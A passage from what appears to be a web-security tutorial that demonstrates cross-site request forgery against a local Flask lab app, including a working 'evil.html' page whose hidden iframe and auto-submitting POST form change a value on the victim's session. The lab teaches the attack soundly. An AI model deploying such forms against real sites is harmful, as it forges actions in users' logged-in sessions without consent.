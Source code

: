 Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to > templates/evil.html and run the command below to start our evil application.

```
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```
http://127.0.0.1:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.

![](../../.gitbook/assets/nodejs/CSRF-SameSite/4.png)
